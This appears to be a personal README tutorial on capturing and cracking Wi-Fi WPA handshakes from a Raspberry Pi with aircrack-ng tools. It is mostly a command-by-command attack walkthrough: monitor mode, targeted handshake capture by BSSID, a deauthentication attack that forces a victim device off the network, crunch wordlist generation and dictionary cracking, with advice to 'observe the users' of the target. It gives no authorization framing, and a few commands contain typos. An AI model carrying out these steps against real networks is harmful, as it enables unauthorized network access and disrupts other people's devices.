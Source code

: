 # Get Wi-fi Handshake
>This is just a reminder for me to keep in mind how to get the wi-fi handshake while monitoring particular wi-fi signal.
>I used Wi-fi Adaptor plugged into Raspberry Pi running NOOBS.
## Connecting Raspberry Pi
>Open terminal, make sure `SSH` is enabled in your raspberry pi.
```
$ ssh <userName>@<IP>
```
>Example: `ssh pi@192.168.1.100`.
>If it ask you something, type `yes` and then enter your user password.
## Before Starting
```
$ sudo apt-get update
$ sudo apt-get upgrade
```
## Downloading Airmon-ng
```
$ sudo apt-get install -y aircrack-ng
```
## Checking Available Wi-fi Adaptors
>Since you have 2 wi-fi adaptors, make sure you use one for monitoring while using other to control your raspberry pi.
>You could either checking your adaptors by;
```
$ ifconfig
```
>or, since you already installed `airmon-ng`
```
$ sudo airmon-ng
```
>You will see `wlan0` and `wlan1` AND their IP's. Keep in mind which one is which.

## Starting Monitoring
```
$ sudo airmon-ng start wlan0
```
>This code will start monitoring mode for `wlan0`. If you were connecting the raspberry pi from this adaptor, your connection will stop.
>After this code, you will also see that the name of `wlan0` turns to `wlan0mon`. This is the name you will use after this point.
```
$ sudo airodump-ng wlan0mon
```
>This line will list you all the available wi-fi signals and their properties for you. `BSSID`,`DATA`,`CH` and so on.
>After choosing one, press `ctrl+c` to stop listing.

## Getting the Handshake
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> --write <namehandshakedocument> wlan0mon
```
>Example: `sudo airodump-ng --bssid EC:08:6B:C7:24:CA --channel 1 --write handshake wlan0mon`.
>This will start documentation with the name of `handshake`.
>To get the handshake, at least one device should connect to that wi-fi. If you can not;

### Deauth Attack
>With this attack, you can drop one device already connected to wi-fi. And while the device trying to reconnect, you will get the handshake.
>To do this attack while listening the wi-fi, you should open a new terminal window and connect to raspberry pi again.
>After that,
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> wlan0mon
$ sudo aireplay-ng --deauth <MSECONDS> -a <BSSID> -c <TARGERDEVICEMACADDRESS> wlan0mon
```
>Example: `sudo aireplay-ng --deauth 1000 -a EC:08:6B:C7:24:CA -c 28:3F:69:46:2C:F2 wlan0mon`.
-Tip: The greater `MSECONDS` is, the longer that device gets hard time connecting to wi-fi.
>After the attack, at the first terminal, you shoul be able to see `WPA handshake: EC:08:6B:C7:24:CA` on top.

## Decrypting
>This is the hard part. You have the handshake but, it is still encrypted. However, there are few methods to decrypt.
>Your `handshake` document will be waiting at `/home/pi`. You will see some new documents, you will only going to need the one named `handshake.cap`.

### Aircrack-ng
>You could try using `aircrack-ng` but, it will take so much time.
```
$ sudo aircrack-ng handshake.cap
```
### Listing All Combinations
```
$ sudo crunch <NUMBER> <NUMBER> <CHARACTERS> -a <FILENAME> <SPECIALS>
```
>Example: `sudo cruch 4 6 123ab -a word-list -t a@@@@b`.
>What this line do is, listing all the possible combination password that has min `4`, max `6` characters; the characters/numbers of `1, 2, 3, a and b` will be used and that starts with `a` and ends with `b`.
>Since passwords are long and complicated than just normal texts, I would guess this will also take some time.

### Making Your Own rockyou List
>`rockyou.txt` is a list of common password on internet. And this is where things gets interesting. Know your target, observe the users, try to guess possible key words and write them all.
>After you are done with rockyou list,
```
$ sudo aircrack-ng handshake.cap -w rockyou
```
>This will compare all the possible passwords and give you the result. It could fail or success, depends on how good your rockyou list.

## To Turn Your Adaptor Back On
```
$ sudo airmon-ng stop wlan0mon
```
## Video Tutorial
- <a href="https://youtu.be/Qmi0Rh_I0G0" target="_blank">`YouTube`</a>
